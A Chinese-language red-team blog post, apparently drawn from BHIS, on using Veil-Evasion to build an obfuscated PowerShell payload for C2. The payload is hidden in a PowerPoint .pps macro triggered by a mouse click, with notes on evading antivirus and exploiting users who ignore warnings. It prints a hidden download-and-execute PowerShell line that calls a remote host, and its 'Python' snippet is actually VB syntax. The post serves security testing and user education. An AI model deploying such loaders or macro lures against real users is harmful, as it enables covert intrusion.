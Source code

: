 ```yaml
---
date: 2025-08-02T06:38:38+08:00
title: 利用Veil-Evasion绕过杀毒软件检测的C2通信技术
tags: [反病毒绕过, C2通信, Veil-Evasion, 红队技术, 宏安全]
authors: qife
description: 本文详细介绍了如何通过Veil-Evasion工具生成混淆脚本，并将其嵌入PowerPoint演示文稿中实现C2通信的技术细节，包括宏安全处理、端口选择以及如何利用用户行为绕过安全警告。
---
```


# 点击启用内容 - 绕过杀毒检测的C2通信技术

**注意**：本文所述技术可能已过时，但仍可作为学习现代工具技术演进的参考案例。

在BHIS，绕过杀毒扫描已成为我们的"办公室运动"。在进行C2测试时，我们会从内网主机建立到C2服务器的反向连接，通过多种数据传递方式来测试防御系统的检测能力。我们的成功率很高（通常能成功外传数据），主要原因是恶意流量的识别极其困难——攻击者可以通过混淆技术使流量逃过杀毒软件和安全设备的检测。

## 技术实现细节

1. **监听器配置**  
   在C2服务器设置443端口的反向TCP监听（选择443因其通常允许出站）。

2. **载荷生成**  
   使用Veil-Evasion工具生成混淆的PowerShell脚本载荷，该工具只需输入目标地址/端口及载荷类型即可自动生成代码。

3. **宏安全处理**  
   原始生成的2300字符单行脚本会触发VB编辑器报错。通过`macro_safe.py`脚本将长代码分割为VB可处理的片段：

   ```python
   # macro_safe.py处理示例
   # 将长命令拆分为多行连接字符串
   str = "powershell -nop -w hidden -c " & _
         "IEX ((new-object net.webclient)." & _
         "downloadstring('http://192.168.1.1/a'))"
   ```

4. **PPT宏植入**  
   - 将文档另存为`.pps`（97-2003格式）避免"m"扩展名引起怀疑
   - 通过"开发工具"选项卡插入VB模块
   - 使用"鼠标点击"动作触发宏执行（覆盖整个首幻灯片的文本框）

## 安全绕过实证

测试扫描结果：
- Gmail扫描器 ❌ 未检测
- Windows Defender ❌ 未检测
- McAfee ❌ 未检测
- Symantec ❌ 未检测

唯一防护是PowerPoint的主动内容警告，但用户往往因"错误消息疲劳"而忽略。这种技术揭示了单纯依赖杀毒软件的黑名单机制和用户教育的重要性。

> "如果必须让用户做安全决策，就必须持续教育他们认识潜在危险。" —— BHIS团队